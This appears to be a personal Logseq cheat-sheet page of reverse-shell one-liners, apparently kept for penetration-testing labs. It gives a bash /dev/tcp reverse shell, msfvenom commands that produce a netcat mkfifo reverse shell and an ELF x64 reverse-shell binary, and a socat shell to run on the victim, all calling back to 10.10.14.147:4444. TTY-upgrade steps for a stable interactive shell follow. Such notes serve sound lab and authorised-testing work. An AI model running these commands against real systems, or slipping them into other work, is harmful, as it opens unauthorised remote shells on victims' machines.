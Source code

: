 public:: true
tags:: reverse shell

- ### One-liner reverse shell
  For more reverse shell examples [check this out](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).
	- #### Just `bash`
	  logseq.order-list-type:: number
	  ```bash
	  bash -c "bash -i >& /dev/tcp/10.10.14.147/4444 0>&1"
	  ```
	- #### Generate one-liner reverse shells with `msfvenom`
	  logseq.order-list-type:: number
		- List payloads
		  logseq.order-list-type:: number
		  ```bash
		  msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'
		  ```
		- Use `netcat` regardless if it's the GNU ore the openBSD (the one with `-e` option) implementation
		  logseq.order-list-type:: number
		  ```bash
		  ┌──(crazybyte㉿kali)-[~]
		  └─$ msfvenom -p cmd/unix/reverse_netcat lhost=10.10.14.147 lport=4444
		  [-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
		  [-] No arch selected, selecting arch: cmd from the payload
		  No encoder specified, outputting raw payload
		  Payload size: 90 bytes
		  mkfifo /tmp/zmko; nc 10.10.14.147 4444 0</tmp/zmko | /bin/sh >/tmp/zmko 2>&1; rm /tmp/zmko
		  ```
	- #### Create ELF x64 reverse shell
	  logseq.order-list-type:: number
	  ```bash
	  msfvenom -p linux/x64/shell_reverse_tcp lhost=10.10.14.147 lport=4444 -f elf > rv
	  chmod +x rv
	  ```
	  `nc` needs to be available and reaceable from `$PATH`.
- #### Upgrade from a simple shell to a fully interactive tty
  Additional info can be found [here](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/).
	- With `python`
	  
	  ```bash
	  python -c 'import pty; pty.spawn("/bin/bash")'
	  ```
	- With `socat`
	  id:: 65534bc6-4e92-4e47-aa27-491d85b83cdd
		- On Kali (Attacker)
		  
		  ```bash
		  socat file:`tty`,raw,echo=0 tcp-listen:4444
		  ```
		- On the victim machine
		  
		  ```bash
		  socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.147:4444
		  ```
	- With `pythom` + `netcat` + some magic
	  *This is the [Phineas Fisher method](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#method-3-upgrading-from-netcat-with-magic).*
		- Within the reverse shell
		  
		  ```bash
		  python -c 'import pty; pty.spawn("/bin/bash")'
		  Ctrl-Z
		  ```
		- From Kali
		  NB: This needs to be done within a `bash` session, `zsh` won't work.
		  ```bash
		  stty raw -echo
		  fg
		  ```
		- Again within the reverse shell
		  
		  ```bash
		  reset
		  export SHELL=bash
		  export TERM=xterm-256color
		  stty rows <num> columns <cols>
		  ```